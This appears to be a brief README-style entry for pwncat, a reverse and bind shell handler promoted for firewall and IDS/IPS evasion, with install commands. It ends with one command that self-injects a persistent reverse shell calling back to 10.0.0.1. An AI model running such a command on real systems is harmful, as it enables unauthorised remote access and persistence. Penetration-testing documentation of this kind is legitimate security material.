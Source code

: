 https://pwncat.org/
### Pwncat

`pwncat` is a sophisticated bind and reverse shell handler with many features as well as a drop-in replacement or compatible complement to `netcat`, `ncat` or `socat`.

> pwncat is like netcat on steroids with Firewall, IDS/IPS evasion, bind and reverse shell, self-injecting shell and forwarding magic - and its fully scriptable with Python ([PSE](https://github.com/cytopia/pwncat/tree/master/pse))

**Install pwncat**

```bash
# Kali Linux
sudo apt install pwncat

```

```bash
# pip
python3 -m pip install pwncat
```

**Setup a listener with unbreakable shell**
This will search for python on host and make a persistence shell back to you.

```bash
pwncat -l 4444 --self-inject /bin/bash:10.0.0.1:4445+3
```
